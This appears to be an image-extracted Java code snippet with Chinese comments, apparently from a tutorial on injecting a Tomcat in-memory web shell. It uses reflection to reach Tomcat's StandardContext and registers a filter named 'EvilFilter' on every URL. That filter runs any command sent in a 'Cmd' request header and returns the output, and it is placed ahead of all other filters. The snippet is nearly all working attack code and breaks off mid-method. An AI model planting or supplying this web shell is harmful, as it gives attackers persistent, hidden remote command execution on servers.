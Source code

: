 ```java
    StandardContext standardContext = (StandardContext) stdctxField.get(applicationContext);

    // 获取 FilterConfigs
    Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);

    // 编写 Filter
    String filterName = "EvilFilter";

    if (filterConfigs.get(filterName) == null){
        // 这里使用了匿名类的形式来定义 Filter
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void destroy() {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                PrintWriter pw = servletResponse.getWriter();
                String cmd = httpServletRequest.getHeader("Cmd");
                if (cmd != null){
                    Process process = Runtime.getRuntime().exec(cmd);
                    InputStream input = process.getInputStream();
                    BufferedReader br = new BufferedReader(new InputStreamReader(input));
                    String line = null;
                    while ((line = br.readLine()) != null){
                        pw.write(line);
                    }
                    br.close();
                    input.close();
                    pw.write("\n");
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }
        };

        // 创建 FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        filterDef.setFilter(filter);

        // 添加 FilterDef
        standardContext.addFilterDef(filterDef);

        // 创建 FilterMap
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName(filterName);
        filterMap.addURLPattern("/*");
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        // 添加 FilterMap 到首位
        standardContext.addFilterMapBefore(filterMap);

```